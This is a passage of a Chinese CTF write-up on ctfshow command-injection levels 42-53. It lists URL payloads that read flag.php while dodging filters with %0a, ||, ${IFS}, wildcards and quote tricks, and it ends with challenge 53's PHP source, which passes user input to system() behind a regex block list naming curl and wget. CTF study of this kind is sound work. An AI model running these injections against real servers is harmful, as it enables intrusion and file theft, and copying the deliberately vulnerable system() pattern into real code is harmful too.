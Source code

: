 这里可以用分号`;`或者urlencode后的换行符`%0a`来截断，试了一下发现`||`（上一条执行失败才执行下一条）也行~

```
?c=tac flag.php%0a
?c=tac flag.php;
?c=tac flag.php ||
```

## 43-52-各种绕过

更多glob通配符可以看[glob(7) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man7/glob.7.html)

43：基于42过滤了`cat`和`分号`，用另外两种

44：基于43过滤了`flag`，用`适配符*`或者`占位符?`：`?c=tac fl*%0a`或者`?c=tac fla?.php%0a`

45：基于44过滤了`空格`；可以用` %09`、`${IFS}`、`<>`这些：`?c=tac%09fl*%0a`或者`?c=tac${IFS}fl*%0a`

ps：`<>`是输入、输出重定向~

46：过滤了`数字`、`$`、`*`; `占位符?`或者`引号（''、""、``）`或者`转义字符\`绕过正则匹配flag：`?c=tac<>fla''g.php||`

47-49：过滤了一些命令；
记一些常用的获得文件内容的命令：`cat、tac、more、less、head、tail、nl、sed、sort、uniq、rev、vi、vim、awk、strings、od`

50：过滤了`%09`；`?c=tac<fla\g.php%0a`

51：过滤`%`和`tac`，改用`||`和`nl`；`?c=nl<fla\g.php||`

52：过滤了`<>`，但`$`又可用了，用$IFS：`?c=nl${IFS}fla''g.php||`



## 53

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 18:21:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```
